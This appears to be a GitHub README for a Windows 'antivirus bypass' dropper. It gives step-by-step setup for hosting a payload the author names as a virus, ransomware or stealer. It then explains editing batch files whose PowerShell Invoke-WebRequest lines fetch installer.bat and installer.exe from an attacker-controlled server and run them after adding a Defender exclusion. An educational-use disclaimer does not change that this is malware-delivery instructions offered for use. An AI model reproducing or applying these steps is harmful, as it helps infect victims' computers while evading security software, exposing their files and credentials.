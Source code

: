 # Antivirus Bypass
Fully undetectable bypass for Windows Defender and every other antivirus (FUD at the moment). Works by downloading a bat file that adds an exclusion for exe files, and then downloads your file and runs it.
# This project is intended for research/educational purposes only.
# Setup
If you already have a webserver, skip to step 2.  
  
1, To start setting up the bypass, you will need a webserver, you can create one by heading over to https://replit.com and creating an HTML, CSS & JS repl, after that, you will need to run the repl. It should then open up a website preview and give you the webserver URL above it.  
  
2, Upload the file you wish to execute (virus, ransomware, stealer, etc) to the webserver and rename the file to installer.exe.  
  
3, Edit line 31 in the installer.bat file:  
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.exe' -OutFile installer.exe"
```
Change https://YOURSITE.COM/installer.exe to your webserver URL. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.exe  
  
4, Upload the installer.bat to your webserver.
5, Edit line 4 in the main.bat file:
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.bat' -OutFile installer.bat"
```
Replace https://YOURSITE.COM/installer.bat with your webserver URL and the path to the installer.bat file. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.bat  
  
6, Done. The file you would use to bypass windows defender would be main.bat. You can convert it to an executable but this will raise the number of detections. If this helped you, make sure to star this repository (;
